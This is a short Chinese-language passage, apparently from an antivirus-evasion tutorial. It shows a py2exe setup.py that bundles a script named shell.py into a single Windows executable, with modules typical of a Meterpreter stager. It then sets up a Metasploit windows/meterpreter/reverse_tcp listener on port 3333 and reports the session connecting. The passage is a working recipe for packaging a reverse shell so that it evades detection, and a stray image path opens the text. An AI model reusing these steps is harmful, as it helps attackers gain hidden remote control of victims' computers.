 创建文件setup.py

```
from distutils.core import setup

import py2exe

setup(

name = "Meter",

description = "Python-based App",

version = "1.0",

console = ["shell.py"],

options = {"py2exe":{"bundle_files":1,"packages":"ctypes","includes":"base64,sys,socket,struct,time,code,platform,getpass,shutil",}},

zipfile = None

)
```

在msf中设置payload`windows/meterpreter/reverse_tcp`，监听相应3333端口。

在windows下执行`python.exe .\setup.py py2exe`，(文件大小11M)

![6b19185fb2ecae420c8e3c4ffd971094](images/2020.04-bypass-05/6.png)

msf中可正常上线
